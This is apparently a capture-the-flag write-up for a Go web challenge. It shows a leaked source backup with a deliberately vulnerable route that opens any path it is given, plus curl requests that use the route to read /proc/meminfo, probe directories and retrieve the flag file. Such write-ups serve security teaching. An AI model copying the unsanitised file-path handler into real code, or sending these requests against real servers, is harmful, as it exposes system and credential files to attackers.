


# Quiz

## Description

Author: icinta

Our intern, Jeff, received a brief introduction to Golang and decided to write a Web app that quizzes users.

http://web1.cybercastors.com:14436

## Analysis

Go to the link and see a simple page with one link:



That will take you to a list of math problems with two input fields:



Entering a string in the first box will throw an Atoi error:

```
strconv.Atoi: parsing "foo": invalid syntax
```

But other than that, there's not really anything interesting on that page. It just validates the answer of each math problem. Going out of bounds doesn't do anything useful for us here.

Running `dirb http://web1.cybercastors.com:14436` turned up a new link to look at:

http://web1.cybercastors.com:14436/backup/

And that link dumps the full source code for the Go service running this site.

```
package main

import (
	"bufio"
	"encoding/csv"
	"fmt"
	"html/template"
	"net/http"
	"net/url"
	"os"
	"strconv"

	"github.com/julienschmidt/httprouter"
)

var local *template.Template
var probs *template.Template

func init() {
	local = template.Must(template.ParseGlob("./files/*"))
	probs = template.Must(template.ParseGlob("./problems/*"))
}

func main() {
	mux := httprouter.New()

	mux.GET("/", index)
	mux.GET("/test/:directory/:theme/:whynot", super)
	mux.GET("/problems/math", math)
	mux.POST("/problems/math", mathCheck)

	//Remember to Delete
	mux.GET("/backup/", backup)

	//Serve File with Directory listing
	http.ListenAndServe(":8080", mux)
}
func index(w http.ResponseWriter, req *http.Request, _ httprouter.Params) {
	err := local.ExecuteTemplate(w, "start.html", nil)
	handleError(w, err)
}

func backup(w http.ResponseWriter, req *http.Request, _ httprouter.Params) {
	http.ServeFile(w, req, "main.go")
}

func mathCheck(w http.ResponseWriter, req *http.Request, _ httprouter.Params) {
	err := req.ParseForm()
	handleError(w, err)
	check(w, req.Form)
}
func math(w http.ResponseWriter, req *http.Request, _ httprouter.Params) {
	game(w)
}
func file(w http.ResponseWriter, req *http.Request, _ httprouter.Params) {
	http.FileServer(http.Dir("."))
}

func check(w http.ResponseWriter, form url.Values) {
	answers, err := os.Open("problems/answers.csv")
	handleError(w, err)

	data, _ := csv.NewReader(answers).ReadAll()

	index, err := strconv.Atoi(form["index"][0])
	handleError(w, err)
	value := form["var"][0]

	f_answers := make(map[int]string)

	for i, v := range data {
		f_answers[i+1] = v[0]
	}

	if f_answers[index] == value {
		last := struct {
			Header string
			SorC   string
		}{
			"correct!!",
			"Congrats!",
		}

		err := probs.ExecuteTemplate(w, "mathCheck.gohtml", last)
		handleError(w, err)
	} else {
		last := struct {
			Header string
			SorC   string
		}{
			"incorrect.",
			"Sorry...",
		}

		err := probs.ExecuteTemplate(w, "mathCheck.gohtml", last)
		handleError(w, err)

	}

}
func super(w http.ResponseWriter, req *http.Request, ps httprouter.Params) {
	fmt.Println(ps.ByName("whynot"))
	var file string = "/" + ps.ByName("directory") + "/" + ps.ByName("theme") + "/" + ps.ByName("whynot")
	test, err := os.Open(file)
	handleError(w, err)
	defer test.Close()

	scanner := bufio.NewScanner(test)
	var content string
	for scanner.Scan() {
		content = scanner.Text()
	}

	fmt.Fprintf(w, "Directories: %s/%s\n", ps.ByName("directory"), ps.ByName("theme"))
	fmt.Fprintf(w, "File: %s\n", ps.ByName("whynot"))
	fmt.Fprintf(w, "Contents: %s\n", content)
}

func handleError(w http.ResponseWriter, err error) {
	if err != nil {
		http.Error(w, err.Error(), http.StatusInternalServerError)
		fmt.Print(err)
	}
}

func game(w http.ResponseWriter) {
	problems, err := os.Open("problems/problems.csv")
	if err != nil {
		fmt.Println(err)
	}

	data, err := csv.NewReader(problems).ReadAll()

	//Create empty struct to contain questions and their indexes
	questions := struct {
		Index    int
		Question string
	}{}
	ques := make([]struct {
		Index    int
		Question string
	}, 0)
	for i, v := range data {
		questions.Index = i + 1
		questions.Question = v[0]
		ques = append(ques, questions)
	}

	err = probs.ExecuteTemplate(w, "math.gohtml", ques)
	handleError(w, err)
}
```

This is where the routes are setup:

```
func main() {
        mux := httprouter.New()

        mux.GET("/", index)
        mux.GET("/test/:directory/:theme/:whynot", super)
        mux.GET("/problems/math", math)
        mux.POST("/problems/math", mathCheck)

        //Remember to Delete
        mux.GET("/backup/", backup)

        //Serve File with Directory listing
        http.ListenAndServe(":8080", mux)
}
```

We know what `/backup/` does now, along with `/` `/problems/math`. But what about this one?

```
mux.GET("/test/:directory/:theme/:whynot", super)
```

That is mapped to this function:

```
func super(w http.ResponseWriter, req *http.Request, ps httprouter.Params) {
        fmt.Println(ps.ByName("whynot"))
        var file string = "/" + ps.ByName("directory") + "/" + ps.ByName("theme") + "/" + ps.ByName("whynot")
        test, err := os.Open(file)
        handleError(w, err)
        defer test.Close()

        scanner := bufio.NewScanner(test)
        var content string
        for scanner.Scan() {
                content = scanner.Text()
        }

        fmt.Fprintf(w, "Directories: %s/%s\n", ps.ByName("directory"), ps.ByName("theme"))
        fmt.Fprintf(w, "File: %s\n", ps.ByName("whynot"))
        fmt.Fprintf(w, "Contents: %s\n", content)
}

func handleError(w http.ResponseWriter, err error) {
        if err != nil {
                http.Error(w, err.Error(), http.StatusInternalServerError)
                fmt.Print(err)
        }
}
```

Wow, that can read arbitrary files with the right request.

```
root@kali:~# curl -s "http://web1.cybercastors.com:14436/test///proc"
Directories: /
File: proc
Contents:
root@kali:~# curl -s "http://web1.cybercastors.com:14436/test//proc/meminfo"
Directories: /proc
File: meminfo
Contents: DirectMap1G:     8388608 kB
```

And it will tell you if a given directory exists or not.

```
root@kali:~# curl -s "http://web1.cybercastors.com:14436/test///problems"
open ///problems: no such file or directory
Directories: /
File: problems
Contents: 
root@kali:~# curl -s "http://web1.cybercastors.com:14436/test///home"
Directories: /
File: home
Contents: 
```

## Solution

At this point, we could use a dictionary attack to get a directory listing of the target system with this knowledge, but it would take awhile to run. Turns out there is no need for that on this problem.

My teammate "bigpick" noticed that the intern's name in the description was "Jeff", so he tried `/home/jeff` which worked, and then tried looking for files under there and found `flag.txt`:

```
root@kali:~# curl -s "http://web1.cybercastors.com:14436/test/home/jeff/flag.txt"
Directories: home/jeff
File: flag.txt
Contents: castorsCTC{wh0_l4iks_qUiZZ3s_4nyW4y}
```

That flag failed though, because apparently someone can't spell "CTF". This is the actual value accepted by the scoreboard:

```
castorsCTF{wh0_l4iks_qUiZZ3s_4nyW4y}
```

